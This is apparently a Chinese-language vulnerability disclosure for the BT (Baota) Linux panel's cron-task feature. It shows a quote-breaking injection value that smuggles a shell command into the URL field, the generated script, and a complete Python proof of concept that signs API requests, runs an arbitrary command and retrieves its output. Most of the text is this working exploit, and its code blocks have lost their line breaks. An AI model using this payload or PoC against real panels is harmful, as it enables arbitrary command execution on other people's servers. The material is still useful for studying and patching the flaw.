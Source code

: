 由于在/www/server/panel/class/crontab.py  
文件中的AddCrontab  
函数中，没有检测输入url是否存在危险字符，所以导致可以通过引号来截断原本的url，使其达到任意命令执行的目的。  
  
例如： 正常输入url为 https://www.baidu.com  
，但是可以通过输入引号像这样来截断 https://www.baidu.com' && ifconfig && echo '  
生成的文件为：  
```
#!/bin/bashPATH=/bin:/sbin:/usr/bin:/usr/sbin:/usr/local/bin:/usr/local/sbin:~/binexport PATHcurl -sS --connect-timeout 10 -m 3600 'https://www.baidu.com' && ifconfig && echo ''echo "----------------------------------------------------------------------------"endDate=`date +"%Y-%m-%d %H:%M:%S"`echo "★[$endDate] Successful"echo "----------------------------------------------------------------------------"
```  
  
这样便可以做到访问url的同时，执行ifconfig  
命令  
  
POC代码  
```
import hashlibimport jsonimport timeimport requestsclass bt_panel:    def __init__(self, bt_panel=None, bt_key=None):       self.__BT_PANEL = 'http://xxx.xxx.xxx.xxx:8888'       self.__BT_KEY = 'key'       if bt_panel:          self.__BT_PANEL = bt_panel          self.__BT_KEY = bt_key       # 添加计划任务    def add_crontab(self, request_url):       # 拼接URL地址       url = self.__BT_PANEL + '/crontab?action=AddCrontab'       # 准备POST数据       p_data = self.__get_key_data()  # 取签名       p_data['name'] = '测试宝塔Linux面板任意命令执行'       p_data['type'] = 'week'       p_data['where1'] = ''       p_data['hour'] = 1       p_data['minute'] = 30       p_data['week'] = 1       p_data['sType'] = 'toUrl'       p_data['sBody'] = ''       p_data['sName'] = ''       p_data['backupTo'] = ''       p_data['save'] = ''       p_data['urladdress'] = request_url       p_data['save_local'] = 1       p_data['notice'] = ''       p_data['notice_channel'] = ''       p_data['datab_name'] = ''       p_data['tables_name'] = ''       result = self.__http_post_cookie(url, p_data)       return json.loads(result)    def start_crontab(self, id):       url = self.__BT_PANEL + '/crontab?action=StartTask'       p_data = self.__get_key_data()       p_data['id'] = id       result = self.__http_post_cookie(url, p_data)       return json.loads(result)    def get_logs(self, id):       url = self.__BT_PANEL + '/crontab?action=GetLogs'       p_data = self.__get_key_data()       p_data['id'] = id       result = self.__http_post_cookie(url, p_data)       return json.loads(result)    def del_crontab(self, id):       url = self.__BT_PANEL + '/crontab?action=DelCrontab'       p_data = self.__get_key_data()       p_data['id'] = id       result = self.__http_post_cookie(url, p_data)       return json.loads(result)    def poc(self, cmd):       data = self.add_crontab(f"https://www.baidu.com' && {cmd} && echo '")       if data['status'] is not True:          returnprint("该主机不存在此漏洞")       print(f"正在运行命令：{cmd}")       start = self.start_crontab(data['id'])       if start['status'] is not True:          returnprint("命令运行失败！")       print("正在获取命令运行结果")       time.sleep(3)       logs = self.get_logs(data['id'])       if logs['status'] is not True:          returnprint("命令运行失败或未运行！")       print(f"命令运行结果：\n{logs['msg']}")       self.del_crontab(data['id'])    def __get_md5(self, s):       m = hashlib.md5()       m.update(s.encode('utf-8'))       return m.hexdigest()       # 构造带有签名的关联数组    def __get_key_data(self):       now_time = int(time.time())       p_data = {          'request_token': self.__get_md5(str(now_time) + '' + self.__get_md5(self.__BT_KEY)),          'request_time': now_time       }       return p_data    def __http_post_cookie(self, url, p_data, timeout=1800):       return requests.post(url, data=p_data, timeout=timeout).textif __name__ == '__main__':    my_api = bt_panel()    # 调用get_logs方法    r_data = my_api.poc("ifconfig")    # 打印响应数据    print(r_data)
```  
  
那么现在，我们继续把焦点放到宝塔的公告上，首先，计划任务的访问URL是否为“外部恶意场景下的非预期利用”呢？我认为不算，  
因为宝塔设计这个功能的重点，应该是“访问URL”，而不是“通过CURL命令来访问URL”。  
  